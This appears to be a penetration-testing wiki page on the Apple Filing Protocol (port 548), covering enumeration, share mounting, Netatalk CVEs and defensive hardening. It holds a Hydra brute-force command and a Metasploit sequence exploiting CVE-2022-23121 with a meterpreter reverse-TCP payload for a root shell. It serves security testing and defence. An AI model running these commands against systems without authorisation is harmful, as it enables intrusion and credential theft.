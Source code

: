 # 548 - Pentesting Apple Filing Protocol (AFP)

## Basic Information

The **Apple Filing Protocol** (**AFP**), once known as AppleTalk Filing Protocol, is a specialized network protocol included within **Apple File Service** (**AFS**). It is designed to provide file services for macOS and the classic Mac OS. AFP stands out for supporting Unicode file names, POSIX-style and ACL permissions, resource forks, named extended attributes and sophisticated file-locking mechanisms.

Although AFP has been superseded by SMB in modern macOS releases (SMB is the default since OS X 10.9), it is still encountered in:

* Legacy macOS / Mac OS 9 environments
* NAS appliances (QNAP, Synology, Western Digital, TrueNAS…) that embed the open-source **Netatalk** daemon
* Mixed-OS networks where Time-Machine-over-AFP is still enabled

**Default TCP Port:** **548** (AFP over TCP / DSI)

```bash
PORT     STATE SERVICE
548/tcp  open  afp
```

---

## Enumeration

### Quick banner / server info

```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```

Useful AFP NSE scripts:

| Script | What it does |
|--------|--------------|
| **afp-ls**            | List available AFP volumes and files |
| **afp-brute**         | Password brute-force against AFP login |
| **afp-serverinfo**    | Dump server name, machine type, AFP version, supported UAMs, etc. |
| **afp-showmount**     | List shares together with their ACLs |
| **afp-path-vuln**     | Detects (and can exploit) directory-traversal, CVE-2010-0533 |

The NSE brute-force script can be combined with Hydra/Medusa if more control is required:

```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```

### Interacting with shares

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```

*Linux* (using `afpfs-ng` ‑ packaged in most distros)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```

Once mounted, remember that classic Mac resource-forks are stored as hidden `._*` AppleDouble files – these often hold interesting metadata that DFIR tools miss.

---

## Common Vulnerabilities & Exploitation

### Netatalk unauthenticated RCE chain (2022)

Several NAS vendors shipped **Netatalk ≤3.1.12**. A lack of bounds checking in `parse_entries()` allows an attacker to craft a malicious **AppleDouble** header and obtain **remote root** before authentication (**CVSS 9.8 – CVE-2022-23121**). A full write-up by NCC Group with PoC exploiting Western-Digital PR4100 is available.

Metasploit (>= 6.3) ships the module `exploit/linux/netatalk/parse_entries` which delivers the payload via DSI `WRITE`.

```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```

If the target runs an affected QNAP/Synology firmware, successful exploitation yields a shell as **root**.

### Netatalk OpenSession heap overflow (2018)

Older Netatalk (3.0.0 - 3.1.11) is vulnerable to an out-of-bounds write in the **DSI OpenSession** handler allowing unauthenticated code execution (**CVE-2018-1160**). A detailed analysis and PoC were published by Tenable Research.

### Other notable issues

* **CVE-2022-22995** – Symlink redirection leading to arbitrary file write / RCE when AppleDouble v2 is enabled (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Directory traversal in Apple Mac OS X 10.6 AFP (detected by `afp-path-vuln.nse`).
* Multiple memory-safety bugs were fixed in **Netatalk 4.x (2024)** – recommend upgrading rather than patching individual CVEs.

---

## Defensive Recommendations

1. **Disable AFP** unless strictly required – use SMB3 or NFS instead.
2. If AFP must stay, **upgrade Netatalk to ≥ 3.1.18 or 4.x**, or apply vendor firmware that back-ports the 2022/2023/2024 patches.
3. Enforce **Strong UAMs** (e.g. *DHX2*), disable clear-text and guest logins.
4. Restrict TCP 548 to trusted subnets and wrap AFP inside a VPN when exposed remotely.
5. Periodically scan with `nmap -p 548 --script afp-*` in CI/CD to catch rogue / downgraded appliances.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## References

* Netatalk Security Advisory CVE-2022-23121 – "Arbitrary code execution in parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Exploiting an 18-Year-Old Bug (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>

